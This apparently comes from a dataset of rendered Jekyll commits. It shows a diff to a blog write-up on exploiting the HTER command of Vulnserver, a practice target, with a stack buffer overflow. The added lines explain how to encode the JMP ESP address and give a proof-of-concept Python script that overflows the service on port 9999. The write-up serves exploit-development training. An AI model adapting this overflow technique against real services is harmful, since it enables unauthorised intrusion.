

Before and after one commit to whitecr0wz/whitecr0wz.github.io, a Jekyll site: the page built from _posts/posts/20-03-09-Vulnserver-HTER.md, in a window 1280 px wide and 1400 px high, scrolled down 3889 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 4519 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 20-03-09-Vulnserver-HTER.md

````diff
--- a/_posts/posts/20-03-09-Vulnserver-HTER.md
+++ b/_posts/posts/20-03-09-Vulnserver-HTER.md
@@ -87,10 +87,40 @@ s.close()
 
 ![](/assets/img/HTER/3.png)
 
-#### Hijacking the execution
+#### Hijacking the execution.
 
 ##### As with any other buffer overflow, it is now essential to find an address with a JMP ESP instruction, which will allow us to execute any type of code with no restrictions whatsoever.
 
-###### Enumerating the modules
+###### Enumerating the modules.
 
 ![](/assets/img/HTER/4.png)
+
+###### Hunting for the required instruction.
+
+##### Now that the vital address has been already acquired, it can't just be placed as we always did, with struct or a hex escape sequence (\x). Instead, it must be placed on reverse, just without the aforementioned hexadecimal condition. For example, instead of sending \x41\x49, 4149 is chosen.
+
+![](/assets/img/HTER/5.png)
+
+###### PoC code:
+
+```term
+import socket, sys
+
+host = sys.argv[1]
+
+jmpesp = "AF115062" # 625011AF
+
+buffer = "HTER " + "A" * 2041 + jmpesp + "FF" * 200
+
+s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
+
+s.connect((host, 9999))
+
+s.send(buffer)
+
+s.close()
+```
+
+##### Crash IV
+
+![](/assets/img/HTER/6.png)
````
